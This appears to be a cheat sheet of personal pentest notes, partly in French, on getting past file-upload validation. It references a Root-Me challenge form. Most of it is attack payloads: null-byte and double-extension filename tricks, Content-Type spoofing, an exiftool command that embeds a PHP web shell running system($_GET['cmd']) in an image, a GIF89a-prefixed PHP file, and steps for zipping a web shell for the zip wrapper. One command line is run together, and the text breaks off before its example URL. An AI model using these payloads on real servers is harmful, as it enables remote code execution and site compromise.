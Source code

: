 # File Upload


## exemple de base:


<form action="upload.php" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="fileToUpload" id="fileToUpload">
    <input type="submit" value="Upload Image" name="submit">
</form>


## exemple spécifique:

<form method="POST" enctype="multipart/form-data" action="http://challenge01.root-me.org/realiste/ch6/index.php?sl=../adm&adm=1" >
<input type="file" class="file" name="downloads" size="30">
<input type="hidden" name="action" value="upload">
<input type="hidden" name="function" value="downloads">
<input type="submit" class="submit" value="Upload">
</form>

## NULL BYTE:

pour jouer avec les extensions: 
Solution1:  nommer le fichier backdoor.pngA.php puis intercepter avec burp. Dans le code Hexa remplacer le 41 (A) en hexa par 00
Solution2: nommer le fichier backdoor.php%00.png
Remarque: la réussite dépends du code qui tourne coté serveur pour valider le fichier


## MIME TYPE:

lorsqu'on joue avec les extentions verifier que le “content type” correspond
Content-Type: image/png


## PHP getimagesize()

For file uploads which validate image size using php getimagesize(), it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.
You can do this with gimp or exiftools:

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpgmv file.jpg file.php.jpg

I'm not sure why some tutorials have the php extension first while others have it second. Try both.


## GIF89a; header

GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:

GIF89a;
<?php 
phpinfo(); 
?>


## misc:

• Content-Type —>Change the parameter in the request header using Burp, ZAP etc.
• Put server executable extensions like file.php5, file.shtml, file.asa, file.cert
• Changing letters to capital form file.aSp or file.PHp3
• Using trailing spaces and/or dots at the end of the filename like file.asp… … . . .. .. , file.asp , file.asp.
• Use of semicolon after the forbidden extension and before the permitted extension example: file.asp;.jpg (Only in IIS 6 or prior)
• Upload a file with 2 extensions—> file.php.jpg
• Use of null character—> file.asp%00.jpg
• Create a file with a forbidden extension —> file.asp:.jpg or file.asp::$data
• Combination of the above


## ZIP:


Zip Wrapper
The zip wrapper can prove useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip file and include PHP code. This wrapper isn't enabled by default and can be installed with the command below:
apt install phpX.Y-zip
Follow the steps below to create a malicious archive.
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
Next, copy malicious.zip to the webroot to simulate the upload. The files in the zip archive can be referenced using the # symbol, which should be URL-encoded in the request. For example, the URL below can be used to include exec.php and then execute code using the cmd parameter.
   






